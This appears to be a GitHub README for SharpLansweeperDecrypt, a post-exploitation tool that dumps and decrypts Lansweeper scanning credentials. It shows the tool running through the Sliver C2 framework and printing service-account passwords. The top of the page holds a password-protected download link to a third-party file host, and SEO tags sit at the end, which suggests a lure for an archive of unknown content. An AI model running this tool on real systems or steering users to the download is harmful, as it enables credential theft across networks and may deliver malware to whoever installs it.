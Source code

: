 # SharpLansweeperDecrypt

# [DOWNLOAD](https://www.4sync.com/web/directDownload/vQ0GwKNh/ucR3VkWM.b319ff3cba0a42c5ae3faf25e462a580)  
## PASSWORD: g1tsoft2025


![image](https://github.com/user-attachments/assets/437c787f-0f20-4001-aea3-aad05a4b91ab)


`SharpLansweeperDecrypt` is designed to automatically extract and decrypt all configured scanning credentials of a  instance, provided there is local access to the server.

For manual decryption, the tool is capable of decrypting passwords when supplied with both the encrypted password and the encryption key (`C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`).


1. Automatically identifies and decrypts the database connection strings contained within Lansweeper's `web.config` file.
2. Utilizes the decrypted connection strings to query the Lansweeper SQL database, retrieving all configured `Scanning Credentials`.
3. Locates the `Encryption.txt` file on the disk, which Lansweeper uses for credential encryption.
4. Applies the encryption key to decrypt and display the scanning credentials.

## Usage
```
PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -h
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

Usage:
  No arguments: Runs the program as is, decrypting web.config and connecting to the SQL database.
  -p <path>: Optional path to the encryption key. If not provided, a default path is used.
  -e <encryptedPassword>: Decrypts the provided encrypted password without decrypting web.config or connecting to the SQL database.
```
![image](https://github.com/user-attachments/assets/be6e68d6-8d5d-4e85-ba51-681609b97227)

### Automatic Decryption

With no arguments specified the tool will try to automatically dump and decrypt all configured `Scanning Credentials`

```
sliver (maldev) > inline-execute-assembly tool/SharpLansweeperDecrypt.exe -

[*] Successfully executed inline-execute-assembly (coff-loader)
[*] Got output:
[+] Success - Wrote 12298 bytes to memory

╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴

[+] Loading web.config file...
[+] Decrypted connectionStrings section:
Using connectionString: Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=InfiniteVoid*GetoSuguru;Connect Timeout=10;Application Name="LsService Core .Net SqlClient Data Provider"
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: SNMP-Private              │
│ Username:   SNMP Community String     │
│ Password:   private                   │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Global SNMP               │
│ Username:                             │
│ Password:   public                    │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Windows         │
│ Username:   SWEEP\svc_inventory_win   │
│ Password:   CursedEnergy$Itadori$     │
└───────────────────────────────────────┘
[+] Credential decrypted successully
┌───────────────────────────────────────┐
│ Credential: Inventory Linux           │
│ Username:   svc_inventory_lnx         │
│ Password:   CurseExorcist#Gojo!       │
└───────────────────────────────────────┘
[+] Database connection closed.

[+] inlineExecute-Assembly Finished
```
### Manual Decryption
Sould the `web.config` file be undecryptable or access to the SQL service be unavailable, `SharpLansweeperDecrypt` offers a manual decryption option using the `-e` flag. In cases where the encryption key's path is not explicitly provided with the `-p` flag, the tool defaults to using `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`.

```PS C:\Users\Yeeb\Downloads> .\SharpLansweeperDecrypt.exe -e 'fuVE63qSVMPbuSnYUdUE+MuRpn8t/PXyLnMUb4gfDew='
╔═╗┬ ┬┌─┐┬─┐┌─┐╦  ┌─┐┌┐┌┌─┐┬ ┬┌─┐┌─┐┌─┐┌─┐┬─┐╔╦╗┌─┐┌─┐┬─┐┬ ┬┌─┐┌┬┐
╚═╗├─┤├─┤├┬┘├─┘║  ├─┤│││└─┐│││├┤ ├┤ ├─┘├┤ ├┬┘ ║║├┤ │  ├┬┘└┬┘├─┘ │
╚═╝┴ ┴┴ ┴┴└─┴  ╩═╝┴ ┴┘└┘└─┘└┴┘└─┘└─┘┴  └─┘┴└─═╩╝└─┘└─┘┴└─ ┴ ┴   ┴


```

### Powershell
In addition to the C# version, this repository also includes a PowerShell script, `LansweeperDecrypt.ps1`, which automates the process of dumping and decrypting Lansweeper credentials. 

## Compilation
Ensure your C# development environment (e.g., .NET SDK, Visual Studio) is set up correctly. The project requires the `System.Configuration.ConfigurationManager`.

```sh
dotnet add package System.Configuration.ConfigurationManager
```

Alternatively, if you're using Visual Studio, you can manage NuGet packages for your project and add `System.Configuration.ConfigurationManager` from there.

## Acknowledgments

Special thanks to the  repository for providing guidance on how to decrypt Lansweeper Scanning Credentials.

---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.* <!-- meme -->


###TAGS
-lansweeper
-photo
-all
-seo
-sharp

